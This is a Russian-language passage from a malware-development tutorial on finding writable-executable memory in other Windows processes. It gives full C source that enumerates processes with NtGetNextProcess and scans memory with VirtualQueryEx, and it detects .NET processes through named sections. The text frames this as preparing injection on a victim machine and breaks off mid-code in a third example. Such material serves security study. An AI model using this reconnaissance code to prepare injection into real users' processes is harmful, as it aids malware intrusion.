










\newpage
\subsection{49. трюк разработки вредоносного ПО. Поиск RWX - часть 2. Трюки исследования целевого процесса. Простой пример на C/C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}      

В одном из моих [предыдущих постов](https://cocomelonc.github.io/tutorial/2022/02/01/malware-injection-16.html) я описал метод инъекции в процесс, используя логику поиска RWX-памяти. Сегодня я применю ту же логику, но с новым трюком.    

Как вы помните, метод прост: мы перечисляем запущенные целевые процессы на системе жертвы, сканируем их выделенные блоки памяти, чтобы определить, какие из них защищены RWX, а затем записываем наш полезный код в этот блок памяти.    

### практический пример

Сегодня я использую немного другой трюк. Допустим, мы ищем конкретный процесс на машине жертвы (для инъекции или другой цели).     

Давайте использовать отдельную функцию для поиска RWX-области памяти в процессе жертвы, например такую:    

```cpp
int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
      mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}
```

Также немного обновим нашу основную логику: сначала ищем дескриптор конкретного процесса по его имени:    

```cpp
typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return current;
}
```

Как можно заметить, мы [используем](https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html) API `NtGetNextProcess` для перечисления процессов.    

Таким образом, финальный исходный код выглядит следующим образом (`hack.c`):    

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return current;
}


int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", 
      mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}


int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;
}
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем исходный код нашего вредоносного ПО:    

```bash
x86_64-w64-mingw32-g++ hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-w -lpsapi -lshlwapi
```

{width="80%"}      

Запускаем на машине жертвы (`Windows 11 x64` в моем случае):    

{width="80%"}      

Пробуем на другом целевом процессе, например `OneDrive.exe`:    

{width="80%"}      

Наша логика сработала, RWX-память успешно найдена!    

Как можно заметить, всё работает идеально! =^..^=    

### практический пример 2

Но есть некоторые нюансы. Иногда нам нужно знать, является ли этот процесс `.NET`, Java или чем-то ещё (действительно ли это процесс `OneDrive.exe`)?    

Для `.NET` процессов есть интересный трюк: если мы откроем `powershell.exe` через Process Hacker 2:    

{width="80%"}      

Как можно заметить, во вкладке `Handles` можно найти интересный раздел с именем `\BaseNamedObjects\Cor_Private_IPCBlock_v4_<PID>`, в нашем случае PID = `3156`, поэтому наша строка равна `\BaseNamedObjects\\Cor_Private_IPCBlock_v4_3156`.    

Давайте обновим нашу функцию `findMyProc`, вот так:    

```cpp
HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = 
  (fNtGetNextProcess_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = 
  (fNtOpenSection_t) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      pid = GetProcessId(current);
      
      // Check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;
      WCHAR procNumber[32];

      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}
```

Просто конвертируем идентификатор процесса в строку UNICODE и объединяем, затем пытаемся найти логику секции.     

Здесь используется API `NtOpenSection` для открытия дескриптора существующего объект-секции:    

```cpp
typedef NTSTATUS (NTAPI * fNtOpenSection)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);
```

Таким образом, полный исходный код этой логики (поиск `.NET` процессов в системе жертвы) выглядит следующим образом:    

```cpp
/*
 * hack2.c - hunting RWX memory
 * detect .NET process
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
  fNtGetNextProcess_t myNtGetNextProcess = (fNtGetNextProcess_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");
  fNtOpenSection_t myNtOpenSection = (fNtOpenSection_t) 
  GetProcAddress(GetModuleHandle("ntdll.dll"), "NtOpenSection");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileNameA(procName)) == 0) {
      pid = GetProcessId(current);
      
      // check for "\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_<PID>" section
      UNICODE_STRING sName;
      OBJECT_ATTRIBUTES oa;
      HANDLE sHandle = NULL;
      WCHAR procNumber[32];

      WCHAR objPath[] = L"\\BaseNamedObjects\\Cor_Private_IPCBlock_v4_";
      sName.Buffer = (PWSTR) malloc(500);

      // convert INT to WCHAR
      swprintf_s(procNumber, L"%d", pid);

      // and fill out UNICODE_STRING structure
      ZeroMemory(sName.Buffer, 500);
      memcpy(sName.Buffer, objPath, wcslen(objPath) * 2);   // add section name "prefix"
      StringCchCatW(sName.Buffer, 500, procNumber);      // and append with process ID
      sName.Length = wcslen(sName.Buffer) * 2;    // finally, adjust the string size
      sName.MaximumLength = sName.Length + 1;    
      
      InitializeObjectAttributes(&oa, &sName, OBJ_CASE_INSENSITIVE, NULL, NULL);
      NTSTATUS status = myNtOpenSection(&sHandle, SECTION_QUERY, &oa);
      if (NT_SUCCESS(status)) {
        CloseHandle(sHandle);
        break;
      }
    }
  }

  return current;
}


int findRWX(HANDLE h) {

  MEMORY_BASIC_INFORMATION mbi = {};
  LPVOID addr = 0;

  // query remote process memory information
  while (VirtualQueryEx(h, addr, &mbi, sizeof(mbi))) {
    addr = (LPVOID)((DWORD_PTR) mbi.BaseAddress + mbi.RegionSize);

    // look for RWX memory regions which are not backed by an image
    if (mbi.Protect == PAGE_EXECUTE_READWRITE
      && mbi.State == MEM_COMMIT
      && mbi.Type == MEM_PRIVATE)

      printf("found RWX memory: 0x%x - %#7llu bytes region\n", mbi.BaseAddress, mbi.RegionSize);
  }

  return 0;
}


int main(int argc, char* argv[]) {
  char procNameTemp[MAX_PATH];
  HANDLE h = NULL;
  int pid = 0;
  h = findMyProc(argv[1]);
  if (h) GetProcessImageFileNameA(h, procNameTemp, MAX_PATH);
  pid = GetProcessId(h);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  findRWX(h);
  CloseHandle(h);
  
  return 0;
}
```

### демонстрация 2

Давайте посмотрим второй пример в действии. Компилируем:    

```bash
x86_64-w64-mingw32-g++ hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive \
-lpsapi -lshlwapi -w
```

{width="80%"}      

Затем просто запускаем. Проверяем на `powershell.exe`:    

```powershell
.\hack2.exe powershell.exe
```

{width="80%"}      

Теперь второй практический пример сработал, как ожидалось! Отлично! =^..^=    

### практический пример 3

Итак, что насчёт предыдущего вопроса?    

Как мы можем проверить, действительно ли процесс жертвы является `OneDrive.exe`? Просто на всякий случай.    

Давайте проверим свойства процесса `OneDrive.exe` через Process Hacker 2:    

{width="80%"}      

Как можно заметить, можно использовать тот же трюк: проверять секцию по её имени: `\Sessions\1\BaseNamedObjects\UrlZonesSM_test1`. Конечно, я могу ошибаться, и наличие этой строки не гарантирует, что это именно процесс `OneDrive.exe`. Я просто хочу показать, что можно исследовать любой процесс и пытаться найти некоторые индикаторы в именах секций.    

Итак, я снова обновил свою функцию, и полный исходный код третьего примера (`hack3.c`):   

```cpp
/*
 * hack.c - hunting RWX memory
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2024/05/01/malware-trick-38.html
*/
#include <windows.h>
#include <stdio.h>
#include <psapi.h>
#include <shlwapi.h>
#include <strsafe.h>
#include <winternl.h>

typedef NTSTATUS (NTAPI * fNtGetNextProcess_t)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

typedef NTSTATUS (NTAPI * fNtOpenSection_t)(
  PHANDLE            SectionHandle,
  ACCESS_MASK        DesiredAccess,
  POBJECT_ATTRIBUTES ObjectAttributes
);

HANDLE findMyProc(const char *procname) {
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function addresses
